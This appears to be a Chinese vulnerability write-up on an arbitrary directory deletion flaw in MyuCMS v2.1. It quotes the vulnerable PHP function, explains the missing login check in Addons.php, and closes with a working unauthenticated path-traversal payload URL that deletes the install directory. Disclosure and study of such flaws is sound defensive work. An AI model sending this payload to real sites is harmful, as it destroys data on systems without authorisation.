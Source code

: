 MyuCMS v2.1 任意目录删除漏洞
============================

一、漏洞简介
------------

二、漏洞影响
------------

MyuCMS v2.1

三、复现过程
------------

因为漏洞描述是任意文件删除，所以先全文搜索 **unlink**
函数，定位到存在文件删除功能的代码段。

定位到 **application/common.php** 中的 **deleteun** 函数

![1.jpg](resource/MyuCMSv2.1任意目录删除漏洞/media/rId24.jpg)

    function deleteun($dir_name)
    {
        $result = false;
        if (is_dir($dir_name)) { // 判断是否为目录
            if ($handle = opendir($dir_name)) { // 打开目录
                while (false !== ($item = readdir($handle))) { // 通过这个 while 遍历目录中的文件 
                    if ($item != '.' && $item != '..') {
                        if (is_dir($dir_name . DS . $item)) { // 若遍历到的文件为子目录，则递归调用deleteun
                            deleteun($dir_name . DS . $item);
                        } else {
                            unlink($dir_name . DS . $item); // 删除遍历到的文件
                        }
                    }
                }
                closedir($handle); // 关闭文件夹
                if (rmdir($dir_name)) { // 删除该目录
                    $result = true;
                }
            }
        }

        return $result;
    }

根据 **deleteun**
函数的实现代码来看，我们可以看到该函数中对传入的参数无任何限制。

然后在整个项目中搜索，看哪个文件中调用了 **deleteun** 函数。

发现总共三处两个文件调用了该函数，且这三处代码内容相同，只不过是传递给的
**deleteun**
函数的参数不同，我们可以判断出，这三处都可以触发任意目录删除漏洞。

![2.jpg](resource/MyuCMSv2.1任意目录删除漏洞/media/rId25.jpg)

这三处的不同之处在于。**Muban.php** 继承了 **Common** 类，在 **Common**
类中实现了对于是否已经登录的验证。实现代码如下。

    public function _initialize(){
            if(!session('usermail') || !session('kouling')){
               $this->error('请登录',url('login/index')); 
               print s();
            }

        }

而 **Addons.php** 继承自 **AdminBase** 类，且初始化时执行父类
**AdminBase** 的 **\_initialize()** 方法，在 **AdminBase**
类中调用了父类 **Controller** 的 **\_initialize()** 方法。而父类的
**Controller** 的 **\_initialize();** 方法的实现内容为空。

所以 **Addons.php**
在未登录的情况下也可以访问。这意味我们不需要登录后台也可以触发任意目录删除漏洞。

### Payload

所以给出 Payload 如下，即可删除整个 **install** 目录

    Payload: http://www.0-sec.org/admin/Addons/un?info=../install

参考链接
--------

> https://xz.aliyun.com/t/7271\#toc-0

